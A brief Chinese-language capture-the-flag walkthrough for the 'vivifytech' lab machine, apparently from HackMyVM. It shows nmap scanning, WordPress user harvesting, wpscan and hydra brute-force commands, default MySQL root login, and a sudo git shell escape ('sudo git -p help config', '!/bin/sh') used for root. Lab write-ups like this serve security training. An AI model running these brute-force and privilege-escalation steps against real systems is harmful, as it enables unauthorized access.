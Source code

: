 # vivifytech
nmap扫描
![](vx_images/64177341843398.png)
80端口是apache页面
先尝试mysql能否连接和弱口令登录
![](vx_images/357938471044224.png)
不支持外联
80端口目录扫描发现wordpress站点
查看登录接口
用wpscan没扫出来用户
翻看一下文章得到账户sancelisso,Emily,Mark,Jake,Alex,Sarah
```
cewl http://192.168.56.103/wordpress -w cewl_output.txt
```
用cewl爬取一下网页后用wpscan爆破一下
```
wpscan --url http://192.168.56.103/wordpress/wp-login.php -U user.txt -P cewl_output.txt
```
没成功
爆破一下ssh
```
hydra -L user.txt -P cewl_output.txt ssh://192.168.56.103
```
还是不行
看了下http://192.168.56.103/wordpress/wp-includes/secrets.txt里面存放密码拿去再跑一边
![](vx_images/76914889740597.png)
读取到user.txt
接下来尝试提权
sudo和suid提权都没甚么能利用的
想到还有mysql服务,可以尝试一下
root/root直接进了
想过udf提权,但是没有权限写文件
只能读取个管理员密码
反正找一下用户目录发现文件
![](vx_images/531093539443311.png)
刚好有这个用户,切换用户gbodja
sudo提权
![](vx_images/240235407259195.png)
git提权
```
sudo git -p help config

!/bin/sh
```
![](vx_images/163204244462070.png)
HMV{Y4NV!7Ch3N1N_Y0u_4r3_7h3_R007_8672}
